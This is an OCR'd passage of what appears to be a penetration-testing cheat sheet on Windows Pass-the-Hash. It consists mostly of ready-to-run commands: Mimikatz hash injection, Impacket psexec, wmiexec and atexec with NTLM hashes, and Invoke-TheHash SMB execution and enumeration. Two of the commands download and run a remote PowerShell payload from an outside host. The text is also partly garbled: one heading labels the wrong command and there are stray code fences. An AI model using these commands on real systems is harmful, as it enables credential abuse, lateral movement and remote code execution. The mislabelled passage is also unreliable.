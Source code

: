 ```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"'
```
```
This will launch a process that will belongs to the users that have launch mimikatz but internally in LSASS the saved credentials are the ones inside the mimikatz parameters. Then, you can access to network resources as if you where that user (similar to the `runas /netonly` trick but you don't need to know the plain-text password).

### Pass-the-Hash from linux

You can obtain code execution in Windows machines using Pass-the-Hash from Linux.\
[[https://github.com/carlospolop/hacktricks/blob/master/windows/ntlm/broken-reference/README.md|**Access here to learn how to do it.**]]

### Impacket Windows compiled tools

You can download[[https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.21-dev-binaries| impacket binaries for Windows here]].

- **psexec_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
- **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
- **atexec.exe** (In this case you need to specify a command, cmd.exe and powershell.exe are not valid to obtain an interactive shell)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
- There are several more Impacket binaries...

### Invoke-TheHash

You can get the powershell scripts from here: [[https://github.com/Kevin-Robertson/Invoke-TheHash|https://github.com/Kevin-Robertson/Invoke-TheHash]]

#### Invoke-SMBExec

```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
```
#### Invoke-WMIExec

```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
```
#### Invoke-SMBClient

```bash
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```
```
#### Invoke-SMBEnum

```bash
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```
```
#### Invoke-TheHash

```